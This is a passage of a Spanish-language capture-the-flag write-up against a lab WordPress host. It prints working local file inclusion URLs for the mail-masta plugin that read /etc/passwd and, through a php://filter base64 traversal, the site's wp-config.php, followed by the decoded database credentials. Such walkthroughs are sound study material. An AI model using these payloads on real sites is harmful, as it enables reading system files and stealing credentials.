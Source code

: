 ````
eTrying elyana / jeremy Time: 00:00:24 <                                                                                                                                                             > (205 / 14344391)  0.00%  ETA: ??:??:?^Cying elyana / 1515151515 Time: 00:40:22 <                                                                                                                                                       > (71844 / 14344391)  0.50%  ETA: ??:??:??
````
Encontramos un password y un user, lo vamos a meter dentro del login, pero no es correcta la contraseña.

Después de estar un rato buscando me fijo en los plugins que hay, mail-masta es vulnerable a LFI, entonces vamos a buscar si esto es verdad

He encontrado este exploit en Exploit Database: [https://www.exploit-db.com/exploits/50226](https://www.exploit-db.com/exploits/50226)

````
http://10.10.23.108/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
````
En efecto es vulnerable, ahora lo que nos interesaría sería buscar el wp-config.php para ver contraseñas.
Despues de estar unos 20 minutos buscando ya que no me aparecía añadiendo ../../../../../wp-config.php he visto en las LFI el uso de php://filter es común si el contenido no sale directamente y esto lo he juntado con Uso de convert.base64-encode:

Al aplicar este filtro, el contenido del archivo se codifica en base64, lo que permite:

Evitar que el servidor lo interprete como PHP (previniendo errores).

Leer el contenido sin problemas de caracteres especiales.

comando usado finalmente:
````
http://10.10.23.108/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
````

Después de pasarlo por ciberchef y descodificarlo me ha dado:
````
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', 'H@ckme@123' );
````